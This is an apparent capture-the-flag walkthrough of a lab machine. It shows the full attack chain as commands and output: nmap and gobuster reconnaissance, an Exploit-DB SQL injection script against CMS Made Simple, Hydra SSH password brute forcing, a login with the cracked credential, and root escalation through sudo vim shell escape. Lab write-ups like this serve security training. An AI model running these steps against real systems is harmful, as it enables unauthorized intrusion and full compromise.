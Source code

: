 > Author: jak010  
> Dat:2021.05.22

## Scan
- Command
	```
	nmap -sC -sV {EXPORT_IP}
	```
	- Result
		```
		Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-21 12:08 EDT
		Nmap scan report for 10.10.170.151
		Host is up (0.27s latency).
		Not shown: 997 filtered ports
		PORT     STATE SERVICE VERSION
		21/tcp   open  ftp     vsftpd 3.0.3
		| ftp-anon: Anonymous FTP login allowed (FTP code 230)
		|_Can't get directory listing: TIMEOUT
		| ftp-syst: 
		|   STAT: 
		| FTP server status:
		|      Connected to ::ffff:10.9.26.67
		|      Logged in as ftp
		|      TYPE: ASCII
		|      No session bandwidth limit
		|      Session timeout in seconds is 300
		|      Control connection is plain text
		|      Data connections will be plain text
		|      At session startup, client count was 3
		|      vsFTPd 3.0.3 - secure, fast, stable
		|_End of status
		80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
		| http-robots.txt: 2 disallowed entries 
		|_/ /openemr-5_0_1_3 
		|_http-server-header: Apache/2.4.18 (Ubuntu)
		|_http-title: Apache2 Ubuntu Default Page: It works
		2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
		| ssh-hostkey: 
		|   2048 29:42:69:14:9e:ca:d9:17:98:8c:27:72:3a:cd:a9:23 (RSA)
		|   256 9b:d1:65:07:51:08:00:61:98:de:95:ed:3a:e3:81:1c (ECDSA)
		|_  256 12:65:1b:61:cf:4d:e5:75:fe:f4:e8:d4:6e:10:2a:f6 (ED25519)
		Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
		Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
		Nmap done: 1 IP address (1 host up) scanned in 61.33 seconds
		```

## Enumeration
- `Ftp`
	- Allow Anonmous Login && Access
		```
		ftp> cd pub
		250 Directory successfully changed.
		ftp> ls
		200 PORT command successful. Consider using PASV.
		150 Here comes the directory listing.
		-rw-r--r--    1 ftp      ftp           166 Aug 17  2019 ForMitch.txt
		```
	- ForMitch.txt
		```text
		Dammit man... you'te the worst dev i've seen. You set the same pass for the system user, and the password is so weak... i cracked it in seconds. Gosh... what a mess!
		```
- `Web`
	- Driectory Brute Forcing
		```
		===============================================================
		Gobuster v3.1.0
		by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
		===============================================================
		[+] Url:                     http://10.10.170.151/
		[+] Method:                  GET
		[+] Threads:                 12
		[+] Wordlist:                raft-large-directories-lowercase.txt
		[+] Negative Status codes:   404
		[+] User Agent:              gobuster/3.1.0
		[+] Timeout:                 10s
		===============================================================
		2021/05/21 12:14:43 Starting gobuster in directory enumeration mode
		===============================================================
		/simple               (Status: 301) [Size: 315] [--> http://10.10.170.151/simple/]
		/server-status        (Status: 403) [Size: 301]       
		```

## Exploit 
- Module Search
	- `google` at `simple cms 2.2.8 exploit`
	- `exploit-db.com`
		- `https://www.exploit-db.com/exploits/46635`

- Module Usage
	```sh
	$ python2 46635.py -u http://{EXPORT_IP}/simple -w 
	``` 
	- Result
		```
		[+] Salt for password found: 17RL1p.H
		[+] Username found: mitch17e
		[+] Email found: admitF4to73
		[+] Password found: 0ajUD
		```

## Retry Credential Ganing
- Ftp File: "ForMitch.txt" <==> username: mitch16e ---> `username is: "mitch"` (maybe...)
- Password Brute Forcing with Hydra

## Password Brute Forcing
- Command
	```
	$ hydra -l mitch -P rockyou.txt EXPORT_IP ssh -s 2222
	```
	- Result
		```
		...
		Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-05-21 12:53:08
		[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
		[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
		[DATA] attacking ssh://10.10.170.151:2222/
		[2222][ssh] host: 10.10.170.151   login: mitch   password: secret
		...
		Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-05-21 12:53:21
		```

## Gaining Access
- Command
	```
	$ ssh -p 2222 mitch@EXPORT_IP
	```
	- Credential -> mitch:secret

## Privilege Escalate
- Command
	```sh
	$ sudo -l
	User mitch may run the following commands on Machine:
	    (root) NOPASSWD: /usr/bin/vim
	...
	$ sudo /usr/bin/vim
	:!/bin/sh
	```